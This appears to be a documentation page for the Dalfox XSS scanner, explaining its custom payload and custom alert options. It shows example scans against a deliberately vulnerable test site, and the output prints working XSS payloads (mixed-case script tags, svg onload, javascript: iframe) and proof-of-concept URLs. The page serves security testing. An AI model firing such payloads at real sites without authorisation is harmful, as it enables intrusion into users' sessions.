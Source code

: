 ```yaml
---
title: Custom payload and Custom alert
permalink: /docs/custom-payload/
---
```


## Custom payload
```
▶ dalfox url --custom-payload payload-list.txt
```

## Custom alert 
### Options
* `--custom-alert-value` = e.g (`XSS` / `1` / `document.location` )
* `--custom-alert-type`= e.g (`str` / `none`)

none or empty: write only alert-value (e.g --custom-alert-value=130 / --custom-alert-value=location.href)
str: `"PAYLOAD"` / `'PAYLOAD'`

### Case of study
default (no option)
```
▶ dalfox url http://testphp.vulnweb.com/listproducts.php\?artist\=123
...snip...
[V] Triggered XSS Payload (found DOM Object): cat=</ScriPt><sCripT class=dalfox>alert(1)</sCriPt>
    48 line:  yntax to use near '=</ScriPt><sCripT class=dalfox>alert(1)</sCriPt>' at line 1
[POC][V][GET] http://testphp.vulnweb.com/listproducts.php?artist=123&cat=%3C%2FScriPt%3E%3CsCripT+class%3Ddalfox%3Ealert%281%29%3C%2FsCriPt%3E
```

used options - only value
```
▶ dalfox url http://testphp.vulnweb.com/listproducts.php\?artist\=123 --custom-alert-value 1337
...snip...
[V] Triggered XSS Payload (found DOM Object): cat='><sVg/onload=alert(1337) class=dalfox>
    48 line:  syntax to use near ''><sVg/onload=alert(1337) class=dalfox>' at line 1
[POC][V][GET] http://testphp.vulnweb.com/listproducts.php?artist=123&cat=%27%3E%3CsVg%2Fonload%3Dalert%281337%29+class%3Ddalfox%3E
```

used options - with type=str
```
▶ dalfox url http://testphp.vulnweb.com/listproducts.php\?artist\=123 --custom-alert-value 1337 --custom-alert-type str
...snip...
[V] Triggered XSS Payload (found DOM Object): cat=<svG/onload=confirm("1337") class=dalfox>
    48 line:  yntax to use near '=<svG/onload=confirm("1337") class=dalfox>' at line 1
[POC][V][GET] http://testphp.vulnweb.com/listproducts.php?artist=123&cat=%3CsvG%2Fonload%3Dconfirm%28%221337%22%29+class%3Ddalfox%3E
```

used options - with type=none,str
```
▶ dalfox url http://testphp.vulnweb.com/listproducts.php\?artist\=123 --custom-alert-value 1337 --custom-alert-type str,int
...snip...
[V] Triggered XSS Payload (found DOM Object): cat="><iFrAme/src=jaVascRipt:alert('1337') class=dalfox></iFramE>
    48 line:  syntax to use near '"><iFrAme/src=jaVascRipt:alert('1337') class=dalfox></iFramE
[POC][V][GET] http://testphp.vulnweb.com/listproducts.php?artist=123&cat=%22%3E%3CiFrAme%2Fsrc%3DjaVascRipt%3Aalert%28%271337%27%29+class%3Ddalfox%3E%3C%2FiFramE%3E
```
